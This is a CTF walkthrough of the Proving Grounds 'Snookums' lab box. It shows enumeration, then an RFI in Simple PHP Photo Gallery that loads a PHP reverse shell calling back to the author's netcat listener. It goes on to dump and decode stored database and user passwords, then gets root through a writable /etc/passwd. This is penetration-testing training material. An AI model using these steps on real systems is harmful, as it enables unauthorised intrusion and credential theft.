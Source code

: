 ```yaml
---
layout: post
title: Proving Grounds - Snookums
subtitle: CTF Walkthrough
cover-img: /assets/img/snookums/snookums.png
tags: [ctf, 'proving grounds', 'pg']
comments: true
---
```


Intermediate linux box found in TJNull OSCP like boxes list. Lets give it a try.

### Enumeration

```
└─$ nmap -sV -sC -v 192.168.119.58 | tee nmap     

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.119
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Simple PHP Photo Gallery
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       MySQL (unauthorized)
Service Info: Host: SNOOKUMS; OS: Unix

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: -1s
| smb2-time: 
|   date: 2022-11-29T10:20:59
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: snookums
|   NetBIOS computer name: SNOOKUMS\x00
|   Domain name: \x00
|   FQDN: snookums
|_  System time: 2022-11-29T05:20:57-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

### Port 80

I discovered Simple PHP Photo Gallery on port 80. Did some basic enumeration, but haven't found any key peaces of information that could aid in getting foothold.

![alt text](/assets/img/snookums/1.png)

Googling **Simple PHP Photo Gallery v0.8** I found an [RFI vulnerability](https://www.exploit-db.com/exploits/48424) for SimplePHPGal 0.7 which I attempted to exploit. I've launched a port 80 listener to check if I will get a call from the server.

![alt text](/assets/img/snookums/2.png)

```
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.49.119] from (UNKNOWN) [192.168.119.58] 53080
GET / HTTP/1.0
Host: 192.168.49.119
```

### Exploitation

Looks like RFI is is valid. I then changes my listener to port 21 and launched a **http.server** on port 80 to serve this webserver a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) to see if I can get a shell back.

![alt text](/assets/img/snookums/3.png)

```
─$ nc -nvlp 21                                  
listening on [any] 21 ...
connect to [192.168.49.119] from (UNKNOWN) [192.168.119.58] 33852
SOCKET: Shell has connected! PID: 2251
whoami
apache
```

Home directory contains Michael's folder which I do not have access to. Additionally I've found db credentials in the same directory.

```
/var/www/html
bash-4.2$ ls
ls
README.txt		 image.php    phpGalleryConfig.php
UpgradeInstructions.txt  images       phpGalleryStyle-RED.css
css			 index.php    phpGalleryStyle.css
db.php			 js	      phpGallery_images
embeddedGallery.php	 license.txt  phpGallery_thumbs
functions.php		 photos       thumbnail_generator.php
bash-4.2$ cat db.php
cat db.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

Using these credentials I got user credentials from SimplePHPGal database

```
bash-4.2$ mysql -u root -p
mysql -u root -p
Enter password: MalapropDoffUtilize1337

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 16
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;

+--------------------+
| Database           |
+--------------------+
| SimplePHPGal       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.04 sec)

ERROR: 
No query specified

mysql> use SimplePHPGal
use SimplePHPGal
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.01 sec)
```

 Looks like these credentials were encoded with double base64 encoding. 

```
┌──(kali㉿kali)-[~/ctf/pg_practice/snookums]
└─$ echo "U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==" | base64 -d 
SG9ja1N5ZG5leUNlcnRpZnkxMjM=                                                                                                                                                         

┌──(kali㉿kali)-[~/ctf/pg_practice/snookums]
└─$ echo "SG9ja1N5ZG5leUNlcnRpZnkxMjM=" | base64 -d 
HockSydneyCertify123  

michael:HockSydneyCertify123 
```

Using credentials I have logged on as **michael** and collected local flag.

```
bash-4.2$ su michael
su michael
Password: HockSydneyCertify123

[michael@snookums html]$ ls ~
ls ~
local.txt
```

### Privilege escalation

Did not find any low hanging fruit, so i spun up **linpeas.sh**. Which has found that **/etc/passwd** is writable.

```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/etc/passwd
```
Nano does not exist on this machine, and VI crashes without a proper terminal. So I had to convert my **nc** shell to proper shell.

```
[michael@snookums tmp]$ export TERM=xterm 
```

```
┌──(kali㉿kali)-[~/ctf/pg_practice/snookums]
└─$ stty raw -echo; fg   
```
Then I have generated a password and updated the **passwd** file.

```
└─$ openssl passwd toor
$1$31aHA6zz$ZxVtWCDnN9kNRSmzFXVFO0
```

```
[root@snookums tmp]# cat /etc/passwd
root:$1$31aHA6zz$ZxVtWCDnN9kNRSmzFXVFO0:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
```

Logging in as root was successful. Machine has been owned. GG.

```
[michael@snookums tmp]$ su root
Password: 
[root@snookums tmp]# whoami
root
```